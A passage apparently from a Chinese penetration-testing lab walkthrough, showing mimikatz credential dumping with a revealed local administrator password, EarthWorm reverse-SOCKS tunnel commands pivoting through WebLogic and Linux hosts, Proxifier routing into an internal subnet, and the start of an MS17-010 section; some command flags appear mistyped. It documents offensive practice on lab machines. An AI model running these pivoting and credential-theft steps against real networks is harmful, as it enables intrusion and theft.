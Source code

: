 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t011817c460147dde81.png)

利用mimikatz抓取本地密码

[![](https://p5.ssl.qhimg.com/t0111849b0cd770937a.png)](https://p5.ssl.qhimg.com/t0111849b0cd770937a.png)

本地administrator的密码为tnudb4

利用ew建立代理

> 本地攻击机执行
ew_for_Win.exe -s rcsocks -l 58585 -e 19911

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b63f1859292bad6c.png)

> window-weblogic上执行
ew_for_Win.exe -s -sscoksd -19100
要以管理员身份执行cmd再运行此命令

[![](https://p2.ssl.qhimg.com/t019774d4d0bc513aca.png)](https://p2.ssl.qhimg.com/t019774d4d0bc513aca.png)

> Linux上执行
./ew_for_linux64 -s lcx_slave -d 10.3.1.52 -e 19911 -f 192.168.2.100 -g 19100
此时本地终端返回rssocks cmd_socket OK说明成功

[![](https://p5.ssl.qhimg.com/t016fafda2d03659eb5.png)](https://p5.ssl.qhimg.com/t016fafda2d03659eb5.png)

在proxifier种新建一个127.0.0.1:58585的代理

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a53421978373121b.png)

[![](https://p5.ssl.qhimg.com/t013545b148e7c09e82.png)](https://p5.ssl.qhimg.com/t013545b148e7c09e82.png)

让访问10.10.10.*网段的流量走新建的代理

[![](https://p4.ssl.qhimg.com/t0125c80813cc1276c6.png)](https://p4.ssl.qhimg.com/t0125c80813cc1276c6.png)

测试一下

[![](https://p5.ssl.qhimg.com/t018d855b96c658b94b.png)](https://p5.ssl.qhimg.com/t018d855b96c658b94b.png)

此时本地网络和10.10.10.*网段就通常了 可以开始渗透最后两台靶机了

## 3.利用ms17-010获取内网window7权限

依旧是先端口扫描
